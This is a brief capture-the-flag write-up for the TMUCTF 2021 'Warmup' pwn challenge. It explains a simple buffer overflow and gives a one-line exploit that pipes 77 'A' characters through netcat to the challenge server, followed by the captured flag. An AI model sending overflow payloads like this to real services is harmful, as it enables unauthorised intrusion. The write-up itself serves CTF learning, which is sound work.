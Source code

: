 # Challenge Description
<p align="center">
  <img src="https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Warmup/challenge.png">
</p>
<br>

# Writeup
This challenge was a simple overflow. You just had to give 77 or more chars as input in order to overwrite the variable inside the code and get the flag!  
```bash
python2.7 -c "print 'A'*77" | nc 194.5.207.56 7000
```   
The flag:   
```
TMUCTF{n0w_y0u_4r3_w4rm3d_up}
```
